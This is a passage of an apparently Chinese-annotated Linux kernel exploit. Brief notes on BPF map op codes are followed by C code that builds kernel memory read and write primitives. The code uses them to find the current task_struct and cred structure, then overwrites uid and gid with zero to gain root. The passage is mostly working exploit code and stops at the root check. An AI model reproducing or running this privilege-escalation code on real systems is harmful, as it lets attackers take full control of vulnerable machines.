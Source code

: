 op = 0: 读取r7的内容到elem[2]

op = 1：读取栈地址到elem[2]

op = 2: 将r8(elem[2])的值写进r7(elem[1])的地址上 

```
#define __update_elem(a, b, c) \
	bpf_update_elem(0, (a)); \
	bpf_update_elem(1, (b)); \
	bpf_update_elem(2, (c)); \
	writemsg();


static uint64_t __get_fp(void) {
	__update_elem(1, 0, 0); // 更新elem[0],elem[1],elem[2]

	return get_value(2);
}

static uint64_t __read(uint64_t addr) {
	__update_elem(0, addr, 0);

	return get_value(2);
}

static void __write(uint64_t addr, uint64_t val) {
	__update_elem(2, addr, val);
}

static uint64_t get_sp(uint64_t addr) {
	return addr & ~(0x4000 - 1);
}

static void pwn(void) {
	uint64_t fp, sp, task_struct, credptr, uidptr;

	fp = __get_fp(); //获得栈地址
	if (fp < PHYS_OFFSET)
		__exit("bogus fp");
	
	sp = get_sp(fp); // 通过栈地址，计算得到栈的基地址
	if (sp < PHYS_OFFSET)
		__exit("bogus sp");
	
	task_struct = __read(sp);//读取sp内容，保存的是当前进程的task_struct地址

	if (task_struct < PHYS_OFFSET)
		__exit("bogus task ptr");

	printf("task_struct = %lx\n", task_struct);

	credptr = __read(task_struct + CRED_OFFSET); // cred 读取cred的地址

	if (credptr < PHYS_OFFSET)
		__exit("bogus cred ptr");

	uidptr = credptr + UID_OFFSET; // uid
	if (uidptr < PHYS_OFFSET)
		__exit("bogus uid ptr");

	printf("uidptr = %lx\n", uidptr);
	__write(uidptr, 0); // set both uid and gid to 0

	if (getuid() == 0) {
```